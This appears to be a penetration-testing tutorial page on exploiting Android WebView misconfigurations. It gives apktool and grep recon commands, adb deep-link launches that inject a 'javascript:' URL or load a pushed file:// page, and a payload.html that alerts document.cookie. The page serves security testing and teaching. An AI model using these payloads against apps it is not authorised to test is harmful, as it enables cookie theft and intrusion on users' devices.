

repository: 0x3xp10i73r/offsec-vault · page: android/exploit-webviews/index.html · generator: mkdocs

---
title: "Exploiting WebViews"
description: "Android WebView misconfigurations in practice: JavaScript-enabled XSS, universal file access for local file theft, addJavascriptInterface RCE on old targets, open navigation, and file:// via a deep link."
tags:
  - Android
  - WebView
  - XSS
  - Deep Links
---

# Exploiting WebViews

!!! note "What this page is doing"
    A `WebView` is a browser engine embedded in a native app, and every one of its dangerous settings is dangerous for the same reason: it erases a boundary the regular mobile web relies on — between script and native code, between the web origin and the local filesystem, or between the page the app intended to load and whatever page actually ended up there. This page goes through each setting, shows the `adb` command that reaches it, and explains what the finding actually is once you do.

A `WebView` that only ever renders content the app itself bundles, from a fixed set of trusted origins, with no bridge to native code, is low risk regardless of its settings — there is no attacker-controlled content to exploit. Everything below assumes the opposite: the `WebView` can be made to load something the app does not fully control, whether that is a parameter from a deep link (see [Exploiting deep links & intents](exploit-deeplinks.md)), a page from an attacker-controlled or compromised third-party origin, or HTML injected through some other channel.

## Finding the WebView and its settings

```bash
# Decode the APK; the settings calls land in the decompiled Java/smali
apktool d app.apk
grep -RnE "setJavaScriptEnabled|setAllowUniversalAccessFromFileURLs|setAllowFileAccessFromFileURLs|addJavascriptInterface|shouldOverrideUrlLoading|loadUrl" app/sources 2>/dev/null
```

```bash
# Confirm which deep links route into a WebView-backed activity at all —
# this is usually how you get attacker-controlled content into one
grep -B 10 "WebView" app/AndroidManifest.xml
```

```bash
# The WebView implementation itself updates independently of the app.
# An outdated WebView component is a separate, one-line finding
adb shell dumpsys webviewupdate
```

## `setJavaScriptEnabled(true)` → XSS

```java
WebView webView = findViewById(R.id.webview);
webView.getSettings().setJavaScriptEnabled(true);
webView.loadUrl(attackerControlledUrl);
```

Script execution is off by default in a `WebView`; this call turns it on. On its own this is no worse than a regular browser running JavaScript — the risk appears the moment the page being rendered is not fully trusted. If the app loads a URL from a deep link, a notification payload, a chat message, or any other source it does not control, JavaScript execution turns that into classic XSS inside the app's own WebView context, with access to cookies, local storage and (if a bridge exists) the native interface described below.

```bash
# Blind XSS via a deep link that feeds a URL into the WebView
adb shell am start -W -a android.intent.action.VIEW \
  -d "myapp://web?url=javascript:alert('XSS')"

# Or push a crafted HTML page and load it as if the app had been handed
# a link to it
adb push payload.html /sdcard/Download/
adb shell am start -a android.intent.action.VIEW \
  -d "myapp://web?url=file:///sdcard/Download/payload.html"
```

```html
<!-- payload.html — minimal proof that script executes in the WebView's context -->
<script>
document.title = "xss-poc";
alert(document.cookie);
</script>
```

Confirm execution by watching for the alert dialog (native `WebView`s route `window.alert` to a real dialog by default unless the app overrides `onJsAlert`), or by checking `document.title` / a network callback the payload triggers.
